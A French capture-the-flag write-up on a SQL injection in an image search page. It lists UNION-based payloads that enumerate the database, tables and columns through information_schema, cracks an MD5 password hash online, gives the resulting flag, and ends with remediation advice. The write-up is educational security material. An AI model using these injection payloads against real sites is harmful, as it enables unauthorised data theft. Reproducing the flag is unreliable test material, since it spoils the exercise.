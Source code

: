 ## Phase 1 : Découverte de la faille

En faisant quelques tests sur la page de recherche d'image nous avons pu identifier quíl y avait possiblement une faille liee a de l'injection sql. 

Une comande classique a essayer dans ce cas est : ' OR '1'='1 qui permet d'ajouter des elements de recherche dans la partie where de la commande sql et donc d'afficher tous les utilisateurs.

Ici l'injection est un peu modifiee car la database est geree par MariaDb, 1 OR 1=1

## Phase 2 : Exploitation de la faille

Il est ensuite necessaire de trouver le nombre de colonne dans la table des Members pour la suite des commandes avec :

1 ORDER BY N (N est a remplacer)

On trouve ici 2 colonnes.

On recupere ensuite le nom de la database grace a :

1 union all select 1,database()

On peut ensuite identifier la version du logiciel qui gere la database, ici Mariadb version 5.5.64. Ce qui nous permet d'identifier quelles sont les differentes fonctions que nous allons pouvoir utiliser dans nos requetes pour recuperer des informations importantes. Etant donne que nous sommes sur une version 5.x nous pouvons utiliser la vue information_schema.tables pour recuperer des informations importantes sur la database utilisee ici.

1 union all select 1,version()

Ensuite recuperer le nom de la table utilisee grace a : 1 union all select 1,group_concat(table_name) from Information_schema.tables where table_schema=database(). Ici le nom de la table est list_images


Et ensuite recuperer le nom des colonnes de cette table grace a :
1 union all select 1,group_concat(column_name) from Information_schema.columns where table_name=0x6c6973745f696d61676573 (traduction de list_images en hexa)

Et ensuite recuperer le contenu des colonnes grace a :
1 union all select 1,group_concat(#Nom de la colonne) from list_images

Une des colonnes contient un mdp crypte, la colonne comment. 

Le mot de passe est crypte via la norme md5 qui est particulierement vulnerable si utilisee sans elements complementaires pour hasher des mots de passe. 

Nous allons donc sur un site de decryptage et nous rentrons le mdp suivant : 
1928e8083cf461a51303633093573c46

https://www.cmd5.org/

Une fois celui ci traduit et passe en lowercase nous obtenons albatroz

et en le codant en SH256 nous obtenons le flag :

f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188

## Phase 3 : Comment corriger la faille

Ne jamais utiliser d'entree utilisateurs directement dans nos requetes sql.

Utiliser des requettes sql preparees. Par exemple sous python avec sqlite3 :
cursor.execute("SELECT * FROM users WHERE username = ?", (username,))

Faire de la validation de donnees dans le back :
Verifie que les donnes sont bien des int et uniquement des int pour un id par exemple. Ou des alphanumeriques pour des identifiants etc.

Fixer des regles strictes sur les noms d'utilisateurs etc afin de faciliter la validation dans le back.

Choisir un meilleur mode de hachage pour les mots de passe. Il est preferable d'utiliser une librairie specialisee comme bcrypt. 